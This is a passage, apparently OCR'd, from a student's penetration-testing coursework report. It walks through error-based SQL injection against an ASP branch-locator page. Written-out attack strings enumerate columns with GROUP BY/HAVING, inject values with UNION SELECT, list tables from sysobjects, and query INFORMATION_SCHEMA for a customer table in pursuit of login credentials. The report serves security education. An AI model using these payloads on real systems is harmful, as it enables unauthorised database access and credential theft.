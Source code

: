 in either an aggregate function or the GROUP BY clause.
/locator.asp, line 27

From the last test, I identified a new column, “city”, belonging to the same table. I
created a new attack string, il’ GROUP BY locator.branchno, locator.address, locator.city
HAVING ‘1’ = ‘1 , for my next SQL injection test. The browser displayed another error
message, shown below:
Microsoft OLE DB Provider for SQL Server error ‘80040e14’
Column ‘eycu..locator.state’ is invalid in the select list because it is not contained
in either an aggregate function or the GROUP BY clause.
/locator.asp, line 27

From the last test, I identified a new column, “state”, belonging to the same table. I
created a new attack string, il’ GROUP BY locator.branchno, locator.address, locator.city,
locator.state HAVING ‘1’ = ‘1 , for my next SQL injection test. The browser displayed
another error message, shown below:
Microsoft OLE DB Provider for SQL Server error ‘80040e14’
Column ‘eycu..locator.zip’ is invalid in the select list because it is not contained in
either an aggregate function or the GROUP BY clause.
6COMP40770 Assignment 4: Penetration Testing
Student Number: 18203449
Kingson Chinedu Odogwu
4 th February, 2019
/locator.asp, line 27

From the last test, I identified a new column, “zip”, belonging to the same table. I
created a new attack string, il’ GROUP BY locator.branchno, locator.address, locator.city,
locator.state, locator.zip HAVING ‘1’ = ‘1 , for my next SQL injection test. The browser
displayed another error message, shown below:
Microsoft OLE DB Provider for SQL Server error ‘80040e14’
Column ‘eycu..locator.phone’ is invalid in the select list because it is not
contained in either an aggregate function or the GROUP BY clause.
/locator.asp, line 27

From the last test, I identified a new column, “phone”, belonging to the same table. I
created a new attack string, il’ GROUP BY locator.branchno, locator.address, locator.city,
locator.state, locator.zip, locator.phone HAVING ‘1’ = ‘1 , for my next SQL injection test.
This time, the browser displayed a table holding information of branches in Illinois.

Having identified all the columns of the “locator” table, I created a new attack string
passing an empty value for state and using SQL UNION operator, so as to retrieve a
dataset from the database with nothing from locator table, but instead holding values of
1, ‘ UNION SELECT ‘1’, ‘1’, ‘1’, ‘1’, ‘1’, ‘1 , for my next SQL injection test. The browser
displayed a table used to display information of the branches, but containing only the
header row and a row of fields holding a value of 1.

Having successfully displayed information I injected (the 1s) into the application branch
search process, I next attempt to extract the names of all user created tables from the
application's database. I used the attack string, ‘ UNION SELECT ‘1’, name, ‘1’, ‘1’, ‘1’, ‘1’
FROM sysobjects WHERE xtype = ‘U , for my next SQL injection test. The browser
displayed the branch information holding table, with the names of user created
database tables under the “Address” column, and the rest of the columns filled with 1s.
The table names were “customer”, “dtproperties”, “fresh_postings”, “fresh_responses”,
“locator”, “postings”, and “responses”.

Having successfully retrieved the names of user created database tables, my next SQL
injection test was to try and retrieve login credentials (like usernames or user id's and
their accompanying passwords) to use and gain access into the application directly. I
7COMP40770 Assignment 4: Penetration Testing
Student Number: 18203449
Kingson Chinedu Odogwu
4 th February, 2019
used the attack string, ‘ UNION SELECT ‘1’, TABLE_NAME, COLUMN_NAME, ‘1’, ‘1’, ‘1’
FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = ‘customer , the test.